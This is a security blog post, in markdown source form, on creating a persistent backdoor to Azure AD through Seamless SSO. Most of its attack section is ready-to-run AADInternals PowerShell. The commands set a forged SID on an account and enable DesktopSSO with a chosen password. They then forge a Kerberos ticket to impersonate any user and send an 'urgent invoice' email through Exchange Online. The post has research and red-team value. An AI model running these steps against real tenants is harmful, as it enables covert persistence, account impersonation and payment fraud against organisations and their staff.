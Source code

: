 +++
title = "How to create a backdoor to Azure AD - part 2: Seamless SSO and Kerberos"
date = "2019-10-30"
lastmod = "2020-08-05"
categories =["blog"]
tags = ["Azure Active Directory","PowerShell","AADInternals","Security"]
thumbnail = "/images/posts/backdoor_i.png"
+++

In my earlier <a href="/post/aadbackdoor/" target="_blank">blog post</a> I explained how to create a backdoor to Azure AD using an identity federation <a href="/post/federation-vulnerability/" target="_blank">~~vulnerability~~ feature</a> I discovered in 2017. 
In this blog post, I'll explain how to create a backdoor using Seamless SSO and how to exploit it using forged Kerberos tickets.

<!--more-->
Microsoft introduced a <a href="https://docs.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso" target="_blank">Seamless Single-Sign-On</a> (aka. DesktopSSO) in 2015. It is using Kerberos tickets to allow users to log in automatically to Office 365 from their domain-joined computers.
Even though the feature makes using Office 365 much easier for end-users, it can be also used as a backdoor to impersonate users. 
When compared to the backdoor created using <a href="/post/aadbackdoor/" target="_blank">identity federation</a>, this is less insecure as it can't be used to bypass MFA.

**Note!** In this blog, I'm using the **<a href="/aadinternals" target="_new">AADInternals</a>** PowerShell module. 

# Prerequisities
The backdoor utilises a Seamless SSO and forged Kerberos tickets. The feature is based on my research during the summer and early fall 2019.  
To create a backdoor, all you need is a user with Global Admin access to Azure AD / Office 365 tenant and <a href="/aadinternals" target="_blank">AADInternals</a> PowerShell module version 0.2.6. or later.

## Preparing the users
The backdoor requires that the account to be impersonated has an **OnPremisesSecurityIdentifier** attribute set. 
If the account is synced from on-premises, the attribute contains a SID of user's on-prem AD object. 
If the account is not synced, you need to set it manually. The value can be basically any correctly formatted SID, as long as it is unique within the tenant. 

Setting the SID requires that the user has also **ImmutableId** set. If that is not set, it also has to be set manually. The value can be basically any string, as long as it is unique within the tenant.

To set the ImmutableId, use the following commands
{{< highlight powershell >}}
# Get AccessToken
$at=Get-AADIntAccessTokenForAADGraph

# Set the ImmutableId
Set-AADIntUser -UserPrincipalName "admin@company.onmicrosoft.com" -ImmutableId "AADBackdoor" -AccessToken $at
{{< /highlight>}}

> **Edit Jul 14th 2020:**
> Microsoft have blocked the possibility to update SID of cloud-only Admin users!

To set the SID, use the following commands
{{< highlight powershell >}}
# Create a SID object. MUST be unique within the tenant. Increase the last number by one for each new user.
$objSID = New-Object System.Security.Principal.SecurityIdentifier("S-1-5-0-0-0-0-1")

# Create a byte array for the binary form of the SID
$b64SID = [System.Byte[]]::CreateInstance([System.Byte],28)

# Export binary SID to the variable
$objSID.GetBinaryForm($b64SID,0)

# Convert the binary SID to Base 64 string
$strB64SID=[convert]::ToBase64String($b64SID)

# Set the SID for the user. Use ImmutableId for the sourceAnchor.
Set-AADIntAzureADObject -AccessToken $at -sourceAnchor "AADBackDoor" -onPremiseSecurityIdentifier $strB64SID
{{< /highlight>}}

## Creating a backdoor
Next, you create a backdoor with following PowerShell commands. 

{{< highlight powershell >}}
# Create an access token for PTA
$pt=Get-AADIntAccessTokenForPTA

# Enable the DesktopSSO
Set-AADIntDesktopSSOEnabled -AccessToken $pt -Enable $true

# Enable the DesktopSSO for the given domain
Set-AADIntDesktopSSO -AccessToken $pt -DomainName company.com -Password "mypassword" -Enable $true
{{< /highlight>}}

# Use the backdoor

Now the backdoor is ready to be used! Use the following commands to create a Kerberos ticket, use it to get an access token for Exchange Online, and finally send an email using Outlook.

{{< highlight powershell >}}
# Create a Kerberos ticket
$kt=New-AADIntKerberosTicket -SidString "S-1-5-0-0-0-0-1" -Password "mypassword"

# Get an access token for Exchange Online
$et=Get-AADIntAccessTokenForEXO -KerberosTicket $kt -Domain company.com

# Send an email using Outlook API
Send-AADIntOutlookMessage -AccessToken $et -Recipient "accounting@company.com" -Subject "Invoice" -Message "Pay the attached invoice <b>ASAP!</b>"

{{< /highlight>}}


# Afterword
 
Now you have a backdoor which you can use to access Office 365. Conditional access can, however, block the access or force the MFA. 

**Note!** The backdoor allows you to log in as ANY USER of the tenant, as long as the user's **SID** is known.
